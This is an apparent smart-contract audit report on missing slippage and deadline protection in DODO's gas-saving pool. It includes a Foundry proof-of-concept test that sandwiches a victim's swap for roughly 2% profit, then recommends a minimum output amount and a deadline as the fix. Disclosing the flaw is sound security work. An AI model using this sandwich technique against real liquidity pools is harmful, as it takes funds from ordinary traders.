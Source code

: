 Dandy Seafoam Skunk

medium

# Slippage issues when the slippage factor `k` is higher

## Summary

When `k` factor increases the slippage portion is amplified. The PMM model become more similar to an AMM model. Also, By not providing any deadline check, if the transaction is not confirmed for a long time then the user might end up with a position that is not as interesting as it was.

## Vulnerability Detail

For pools with higher `k` factor, trades become more sensitive to slippage issues. Also, trades become prone to sandwich attacks.

According to the [article](https://dodo-in-the-zoo.medium.com/introducing-dodo-10x-better-liquidity-than-uniswap-852ce2137c57), `k` is recommended to be a relatively small number, such as `0.1`.

The following test is an example of a slippage attack that could happen for `K = 50000000000000000` or k = 0.05. 
You can copy the following test in the file `GPSTrader.t.sol`

<details>
<summary>Code</summary>

```javascript
function test_sandwitchAttack() public {
        // transfer some tokens to USER
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, 2*BASE_RESERVE + BASE_INPUT);
        dai.transfer(VICTIM, 2*BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, 2*QUOTE_RESERVE + QUOTE_INPUT);
        usdc.transfer(VICTIM, QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();

        // User buys shares
        // console.log(dai.balanceOf(USER));
        // console.log(dai.balanceOf(VICTIM));
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        gsp.buyShares(USER);
        vm.stopPrank();


        // Attacker sees User's tx and front runs it
        uint256 balanceBaseUserBefore = dai.balanceOf(USER);
        uint256 balanceQuoteUserBefore = usdc.balanceOf(USER);
        console.log("Balance DAI attacker Before: ", balanceBaseUserBefore);
        console.log("Balance USDC attacker Before: ", balanceQuoteUserBefore);
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_INPUT);
        gsp.sellBase(USER);
        vm.stopPrank();
        uint256 balanceBaseUserAfterFirstTrade = dai.balanceOf(USER);
        uint256 balanceQuoteUserAfterFirstTrade = usdc.balanceOf(USER);
        console.log("Balance DAI attacker after first Trade: ", balanceBaseUserAfterFirstTrade);
        console.log("Balance USDC attacker after first Trade: ", balanceQuoteUserAfterFirstTrade);

        uint256 balanceBaseVictimBefore = dai.balanceOf(VICTIM);
        uint256 balanceQuoteVictimBefore = usdc.balanceOf(VICTIM);
        vm.startPrank(VICTIM);
        dai.transfer(address(gsp), BASE_INPUT);
        gsp.sellBase(VICTIM);
        vm.stopPrank();
        uint256 balanceBaseVictimAfter = dai.balanceOf(VICTIM);
        uint256 balanceQuoteVictimAfter = usdc.balanceOf(VICTIM);
        console.log("Balance DAI Victim before: ", balanceBaseVictimBefore);
        console.log("Balance USDC Victim before: ", balanceQuoteVictimBefore);
        console.log("Balance DAI Victim after: ", balanceBaseVictimAfter);
        console.log("Balance USDC Victim after: ", balanceQuoteVictimAfter);

        // Attacker sells the tokens for immediate profit
        vm.startPrank(USER);
        usdc.transfer(address(gsp), QUOTE_INPUT/2);
        gsp.sellQuote(USER);
        vm.stopPrank();
        uint256 balanceBaseUserAfter = dai.balanceOf(USER);
        uint256 balanceQuoteUserAfter = usdc.balanceOf(USER);
        console.log("Balance DAI attacker after second trade: ", balanceBaseUserAfter);
        console.log("Balance USDC attacker after second trade: ", balanceQuoteUserAfter);

        console.log("Balance DAI of Attacker gained: ", balanceBaseUserAfter - balanceBaseUserBefore);
        // 19037163309124435
      
    }
```
</details>

Result
```javascript
Balance DAI of Attacker gained:  19037163309124435
```

The attacker/MEV bot can thus make 2% profit a trade for no risk. The profit will increase if the amount for the trade/k factor used increase.

## Impact

The attackers profits are a loss for the the users.
Loss of funds for legit traders.
Loss of confidence in the model and the pool.
Every trading function is impacts, both selling functions and the flashloan function.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L79
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L122

## Tool used

Manual Review
Foundry

## Recommendation

Add slippage protection. You can consider adding parameters for the minimum amountOut to swap + deadline with a proper deadline and reverts the tx if deadline is passed.
